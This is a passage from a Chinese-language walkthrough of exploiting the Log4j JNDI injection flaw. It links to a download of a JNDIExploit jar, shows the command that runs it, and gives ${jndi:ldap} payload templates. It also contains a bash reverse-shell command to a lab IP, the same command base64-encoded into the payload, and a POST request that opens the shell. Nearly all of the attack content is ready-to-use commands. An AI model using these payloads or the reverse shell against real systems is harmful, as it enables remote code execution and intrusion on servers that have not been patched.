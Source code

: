 链接：https://pan.baidu.com/s/1pNWfziQWeJ0PVssqSqWPNQ 
提取码：twgp

该工具是一个可执行jar包，可使用如下命令执行。

```bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i [ip]
```
<img src="漏洞利用\log4j (9).png" alt="log4j (9)" style="zoom:61%;" />

在该工具执行的基础上，构造payload。

```
${jndi:ldap://[ip]:1389/Basic/Command/[command]}
```
或
```
${jndi:ldap://[ip]:1389/Basic/Command/Base64/[base64_encoded_cmd]}
```
下面我选用的是后者base64编码的命令，base64编码的命令载荷在网络传输中有着命中率较高的优势。

Base64编码在线工具地址：http://tool.chinaz.com/tools/base64.aspx
```bash
bash -i >& /dev/tcp/192.168.180.130/6666 0>&1
```
经过base64编码放入参数中
```
c=${jndi:ldap://[ip]:1389/Basic/Command/Base64/YmFzaCAtaSAmZ3Q7JiAvZGV2L3RjcC8xOTIuMTY4LjE4MC4xMzAvNjY2NiAwJmd0OyYyIA==}
```
向网页发送带有payload的post请求。

![log4j (10)](漏洞利用\log4j (10).png)

反弹shell成功。

<img src="漏洞利用\log4j (11).png" alt="log4j (11)" style="zoom: 61%;" />
